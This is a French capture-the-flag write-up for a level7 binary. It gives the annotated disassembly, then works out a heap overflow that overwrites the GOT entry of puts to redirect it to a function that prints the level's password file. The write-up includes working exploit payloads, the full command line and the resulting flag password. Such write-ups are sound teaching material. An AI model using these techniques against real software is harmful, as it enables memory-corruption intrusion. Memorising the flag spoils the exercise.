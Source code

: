 ```
080484f4 <m>:
 80484f4:	55                   	push   ebp
 80484f5:	89 e5                	mov    ebp,esp
 80484f7:	83 ec 18             	sub    esp,0x18
 80484fa:	c7 04 24 00 00 00 00 	mov    DWORD PTR [esp],0x0
 8048501:	e8 ca fe ff ff       	call   80483d0 <time@plt>
 8048506:	ba e0 86 04 08       	mov    edx,0x80486e0 ; "%s - %d\n"
 804850b:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 804850f:	c7 44 24 04 60 99 04 	mov    DWORD PTR [esp+0x4],0x8049960
 8048516:	08 
 8048517:	89 14 24             	mov    DWORD PTR [esp],edx
 804851a:	e8 91 fe ff ff       	call   80483b0 <printf@plt> ; printf("%s - %d\n", 0x8049960, time(NULL))
 804851f:	c9                   	leave  
 8048520:	c3                   	ret    

08048521 <main>:
 8048521:	55                   	push   ebp
 8048522:	89 e5                	mov    ebp,esp
 8048524:	83 e4 f0             	and    esp,0xfffffff0
 8048527:	83 ec 20             	sub    esp,0x20						; 32
 804852a:	c7 04 24 08 00 00 00 	mov    DWORD PTR [esp],0x8
 8048531:	e8 ba fe ff ff       	call   80483f0 <malloc@plt>			; void *alloc_1  = malloc(8)
 8048536:	89 44 24 1c          	mov    DWORD PTR [esp+0x1c],eax		; 
 804853a:	8b 44 24 1c          	mov    eax,DWORD PTR [esp+0x1c]
 804853e:	c7 00 01 00 00 00    	mov    DWORD PTR [eax],0x1			; *alloc_1 = 1;
 8048544:	c7 04 24 08 00 00 00 	mov    DWORD PTR [esp],0x8
 804854b:	e8 a0 fe ff ff       	call   80483f0 <malloc@plt>			; void *alloc_2 = malloc(8)
 8048550:	89 c2                	mov    edx,eax
 8048552:	8b 44 24 1c          	mov    eax,DWORD PTR [esp+0x1c]
 8048556:	89 50 04             	mov    DWORD PTR [eax+0x4],edx		; *(alloc_1 + 4) = alloc_2;
 8048559:	c7 04 24 08 00 00 00 	mov    DWORD PTR [esp],0x8
 8048560:	e8 8b fe ff ff       	call   80483f0 <malloc@plt>			; void *alloc_3 = malloc(8)
 8048565:	89 44 24 18          	mov    DWORD PTR [esp+0x18],eax
 8048569:	8b 44 24 18          	mov    eax,DWORD PTR [esp+0x18]
 804856d:	c7 00 02 00 00 00    	mov    DWORD PTR [eax],0x2			; *alloc_3 = 2;
 8048573:	c7 04 24 08 00 00 00 	mov    DWORD PTR [esp],0x8
 804857a:	e8 71 fe ff ff       	call   80483f0 <malloc@plt>			; void *alloc_4 = malloc(8)
 804857f:	89 c2                	mov    edx,eax
 8048581:	8b 44 24 18          	mov    eax,DWORD PTR [esp+0x18]
 8048585:	89 50 04             	mov    DWORD PTR [eax+0x4],edx		; *(alloc_3 + 4) = alloc_4;
 8048588:	8b 45 0c             	mov    eax,DWORD PTR [ebp+0xc]
 804858b:	83 c0 04             	add    eax,0x4
 804858e:	8b 00                	mov    eax,DWORD PTR [eax]
 8048590:	89 c2                	mov    edx,eax						; edx = argv[1]
 8048592:	8b 44 24 1c          	mov    eax,DWORD PTR [esp+0x1c]
 8048596:	8b 40 04             	mov    eax,DWORD PTR [eax+0x4]		; eax = alloc_2;
 8048599:	89 54 24 04          	mov    DWORD PTR [esp+0x4],edx
 804859d:	89 04 24             	mov    DWORD PTR [esp],eax
 80485a0:	e8 3b fe ff ff       	call   80483e0 <strcpy@plt>			; strpcpy(alloc_2, argv[1])
 80485a5:	8b 45 0c             	mov    eax,DWORD PTR [ebp+0xc]
 80485a8:	83 c0 08             	add    eax,0x8
 80485ab:	8b 00                	mov    eax,DWORD PTR [eax]
 80485ad:	89 c2                	mov    edx,eax						; edx = argv[2]
 80485af:	8b 44 24 18          	mov    eax,DWORD PTR [esp+0x18]
 80485b3:	8b 40 04             	mov    eax,DWORD PTR [eax+0x4]
 80485b6:	89 54 24 04          	mov    DWORD PTR [esp+0x4],edx
 80485ba:	89 04 24             	mov    DWORD PTR [esp],eax
 80485bd:	e8 1e fe ff ff       	call   80483e0 <strcpy@plt>			; strcpy(alloc_4, argv[2])
 80485c2:	ba e9 86 04 08       	mov    edx,0x80486e9				; 'r'
 80485c7:	b8 eb 86 04 08       	mov    eax,0x80486eb				; "/home/user/level8/.pass"
 80485cc:	89 54 24 04          	mov    DWORD PTR [esp+0x4],edx
 80485d0:	89 04 24             	mov    DWORD PTR [esp],eax
 80485d3:	e8 58 fe ff ff       	call   8048430 <fopen@plt>			; file = fopen("/home/user/level8/.pass", "r")
 80485d8:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 80485dc:	c7 44 24 04 44 00 00 	mov    DWORD PTR [esp+0x4],0x44		; 68
 80485e4:	c7 04 24 60 99 04 08 	mov    DWORD PTR [esp],0x8049960	; char *string_ptr
 80485eb:	e8 d0 fd ff ff       	call   80483c0 <fgets@plt>			; fgets(string_ptr, 68, file)
 80485f0:	c7 04 24 03 87 04 08 	mov    DWORD PTR [esp],0x8048703	; "~~"
 80485f7:	e8 04 fe ff ff       	call   8048400 <puts@plt>
 80485fc:	b8 00 00 00 00       	mov    eax,0x0
 8048601:	c9                   	leave  
 8048602:	c3                   	ret    
```

Le but du chall est de lire la réponse du `fgets`. C'est assez "simple", il suffit de changer l'adresse dans `puts` (0x8048703) à `0x8049960` dans laquelle est stockée le résultat du fichier, via deux buffer overflow dans la heap.

On peut override dans le argv[1] lors de la copie pour réécrire l'adresse du *(alloc_3 + 4).
Lors de l'écriture de notre argv[2] dedans, on pourra probablement écrire dans la stack 
ou ailleurs pour changer les adresses.
Ici, je pense qu'il faut injecter un shellcode. Pour ça, on va devoir regarder deux lignes au dessus, nos instructions:
`mov    DWORD PTR [esp],0x8049960`.

On peut voir que les `opcodes` correspondants sont `c7 04 24 60 99 04 08`. Très bien. Donc pour `puts` le contenu du fichier, il suffirait d'écrire `\x08\x04\x99\x60\x24\x04\xc7` à la position `\xf0\x85\x04\x08`.

Après les 4 allocations, notre heap ressemble à ça :
```
(gdb) x/100xw 0x0804a008
0x804a008:	0x00000001	0x0804a018	0x00000000	0x00000011
0x804a018:	0x00000000	0x00000000	0x00000000	0x00000011
0x804a028:	0x00000002	0x00000000	0x00000000	0x00000011
0x804a038:	0x00000000	0x00000000	0x00000000	0x00020fc1
```

Donc, on va écrire à la position `0x0804a018`, et on va devoir overflow jusque `0x804a032`. Par conséquent, on a 22 octets de padding
et on a l'adresses où notre opcode doit être écrit, à écrire :
`python -c 'print("A" * 20 + "\xf0\x85\x04\x08")'`

Parfait ! Il ne manque plus qu'à injecter notre opcode :
`python -c 'print("\x60\x24\x04\xc7\x08\x04\x99")'`

Je viens juste de réaliser que ça segfault à chaque essaie. Impossible d'écrire des opcodes dans le programme. Et je viens également de faire control + f sans faire exprès sur l'adresse de la string (`0x8049960`), et il semblerait qu'elle soit utilisée dans ... `m`.
Alors, riez bien, je suis un boulet. Il faut changer la GOT de `put` et la faire pointer vers `m`.

`objdump -R ./level7`:
`08049928 R_386_JUMP_SLOT   puts`

On écrira donc `\xf4\x84\x04\x08` dans l'adresse : `\x28\x99\x04\x08`

Nouvelles payloads :
`python -c 'print("A" * 20 + "\x28\x99\x04\x08")'`
`python -c 'print("\xf4\x84\x04\x08")'`

`./level7 "$(python -c 'print("A" * 20 + "\x28\x99\x04\x08")')" "$(python -c 'print("\xf4\x84\x04\x08")')"`

Password: `5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9`